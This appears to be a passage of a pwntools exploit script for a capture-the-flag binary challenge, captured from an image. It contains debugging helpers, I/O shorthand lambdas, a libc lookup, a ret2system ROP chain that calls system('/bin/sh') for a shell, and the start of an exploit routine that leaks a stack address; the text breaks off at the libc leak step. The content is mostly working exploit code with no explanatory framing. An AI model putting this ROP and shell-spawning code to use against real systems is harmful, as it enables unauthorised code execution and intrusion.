 ```python

def debug():
    global gdbscript, pid
    if not args.REMOTE and not args.GDB:
        if args.QEMU:
            gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
            for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
                gdb_args.extend(["-ex", cmd])
            Popen(gdb_args)
        elif args.DOCKER:
            gdbscript = f'''
            init-pwndbg
            set sysroot /proc/{pid}/root
            c
            '''.format(**locals())        
            attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe='chall')
        else:
            attach(io, gdbscript=gdbscript)

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))


# =========================================================
#                         EXPLOITS
# =========================================================
# Libc Finder
def find_libc(offset={}):
    print(libcdb.search_by_symbol_offsets(offset, return_as_list=True))
    idx = int(1)
    return libcdb.search_by_symbol_offsets(offset, select_index=idx)

def ret2system():
    rop = ROP(libc)
    # rop.raw(rop.ret.address)
    rop.system(next(libc.search(b'/bin/sh')))
    return rop.chain()


def exploit():
    global io, libc
    io = initialize()
    with log.progress("Leak Stack"), context.silent:
        sa("? ", b"a"*0x20)
        ru("a"*0x20)
        stack = u64(ru("DM").ljust(8, b"\x00"))
        target = stack - 0x48
    leak("Stack", hex(stack))
    leak("Target", hex(target))

    with log.progress("Leak Libc"), context.silent:
```